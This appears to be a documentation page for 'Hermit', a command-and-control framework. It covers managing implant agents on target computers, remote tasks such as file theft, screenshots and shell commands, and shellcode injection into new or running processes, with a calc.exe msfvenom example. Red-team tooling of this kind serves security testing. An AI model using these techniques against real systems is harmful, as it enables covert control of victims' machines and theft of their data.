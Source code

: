 +++
title = "Agent"
date = 2024-01-11
[extra]
toc=true
+++

After executing the implant in target computer, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check agents with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

## Switch to Agent Mode

To interact with the agent for attack simulation, you can run the `agent use <ID or Name>` command.

```sh
# Specify the agent ID
Hermit $ agent use 1

# Specify the agent name
Hermit $ agent use agent_123
```

<br />

## Send Tasks

In the agent mode, you can remote control to target computer with sending tasks to the agent.  
Specifically, you can use the following commands:

|Command|Description|
|---|---|
|exit|Exit the agent mode.|
|cat|Read a file content.|
|cd|Change the current directory.|
|cp|Copy file to another location.|
|download|Download a file from target computer.|
|info|Get the detailed information of the system.|
|ls|List files in specified directory.|
|loot|Show the looted information for the agent that you've obtained so far. (Under development)|
|mkdir|Create a new directory.|
|net|Get the network information.|
|ps|Process management.|
|pwd|Get the current directory.|
|rm|Remove file or directory.|
|screenshot|Take a screenshot for target machine.|
|shell|Execute shell command for target machine.|
|shellcode|Inject a shellcode for executing arbitrary commands in the new created process.|
|sleep|Change sleep time for sending requests to C2 server.|
|upload|Upload a file to target computer.|
|whoami|Get current username.|
|help|Print this message or the help of the given subcommand(s)|

### Shell

- CMD

```sh
Hermit [agent: agent_2352650890] $ shell whoami
[+] VICTIM\john
```

- PowerShell

If you want to run PowerShell command, add the `--ps` flag.

```sh
Hermit [agent: agent_2352650890] $ shell --ps Get-Process
[+]
...
```

### Shellcode

To execute shellcode in process, you need to generate shellcode at first.  
For example, the following command generates a shellcode which opens `calc.exe`.  
Currently **HEX** encoding required.

```sh
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o /tmp/shellcode.txt
```

After generating, run the `shellcode` command in the agent mode.

- **Inject New Process**

When specifying the process name with the `--process` option, a new process will be created and injected shellcode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --process svchost --file /tmp/shellcode.txt
```

- **Inject Running Process**

When specifying the process ID with the `--pid` option, the currently running process will be injected shellcode.  
To list the PIDs, run the `ps list` command in agent mode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --pid 1234 --file /tmp/shellcode.txt
```

If successful, the target computer opens `calc.exe`.

<br />

## Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

<br />

## Delete Agent

```sh
# Specify the agent ID
Hermit $ agent delete 1

# Specify the agent name
Hermit $ agent delete agent_123
```

### Delete All Agents

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```
